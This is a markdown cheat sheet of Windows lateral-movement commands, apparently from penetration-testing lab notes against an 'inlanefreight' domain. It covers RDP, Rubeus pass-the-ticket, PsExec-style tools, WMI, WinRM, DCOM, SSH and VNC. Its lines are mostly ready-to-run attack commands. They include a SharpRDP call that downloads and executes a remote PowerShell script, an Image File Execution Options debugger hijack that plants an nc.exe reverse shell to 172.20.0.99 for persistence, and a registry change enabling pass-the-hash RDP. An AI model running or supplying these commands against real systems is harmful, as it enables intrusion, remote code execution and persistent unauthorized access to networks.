

#windows #lateral-movement #psexec #wmi #winrm

# Windows Lateral Movement

Related: [privesc](privesc.md) · [credential-theft](credential-theft.md) · [attacks-defense](attacks-defense.md) · [kerberos-tickets](../AD/kerberos-tickets.md) · [pivoting](../Network/pivoting.md)

## Contents
- [RDP](#rdp)
- [Pass-the-Hash / Ticket (Rubeus)](#pass-the-hash--ticket-rubeus)
- [SMB (PsExec family)](#smb-psexec-family)
- [WMI](#wmi)
- [WinRM / PSRemoting](#winrm--psremoting)
- [DCOM](#dcom)
- [SSH](#ssh)
- [VNC](#vnc)



## RDP
```cmd
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 0 /t REG_DWORD
```
Enable Restricted Admin mode (allows PtH RDP).

```cmd
.\SharpRDP.exe computername=srv01 command="powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.207/s')" username=inlanefreight\<USER> password=<PASS>
```
Run a command over RDP without a GUI (SharpRDP).

## Pass-the-Hash / Ticket (Rubeus)
```cmd
.\Rubeus.exe asktgt /user:<USER> /rc4:<HASH> /domain:inlanefreight.local /ptt
```
Request a TGT with an NTLM hash and inject it. See [kerberos-tickets](../AD/kerberos-tickets.md).

## SMB (PsExec family)
```cmd
.\PsExec.exe \\SRV02 -i -s -u INLANEFREIGHT\<USER> -p <PASS> cmd
```
Run a command as SYSTEM on a remote host.

```cmd
.\SharpNoPSExec.exe --target=<TARGETIP> --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e <b64>"
```
Service-hijack execution without creating a new service.

```cmd
.\NimExec -u <USER> -d inlanefreight.local -p <PASS> -t <TARGETIP> -c "cmd.exe /c powershell -e <b64>"
```
Fileless remote exec over RPC (NimExec).

```cmd
reg.exe add "\\srv02.inlanefreight.local\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msedge.exe" /v Debugger /t reg_sz /d "cmd /c ... nc.exe -e cmd 172.20.0.99 8080"
```
IFEO debugger hijack for execution/persistence.

## WMI
```cmd
wmic /node:<TARGETIP> process call create "notepad.exe"
```
Execute remotely via WMIC.

```powershell
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe" -ComputerName <TARGETIP>
```
Execute remotely via PowerShell WMI.

## WinRM / PSRemoting
```powershell
Enter-PSSession $sessionSRV02
```
Enter an established remote PowerShell session (`New-PSSession` to create, `Copy-Item -FromSession` to pull files).

## DCOM
```powershell
$shell = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","<TARGETIP>"))
```
Instantiate the ShellWindows COM object on a remote host for execution.

## SSH
```cmd
ssh -i C:\helen_id_rsa -l <USER>@inlanefreight.local -p <TARGET_PORT> <TARGET>
```
Connect with a private key.

## VNC
```powershell
Test-NetConnection -ComputerName <TARGET> -Port 5900
```
Check for a VNC service (`reg query HKLM\SOFTWARE\TightVNC\Server /s` for stored creds).
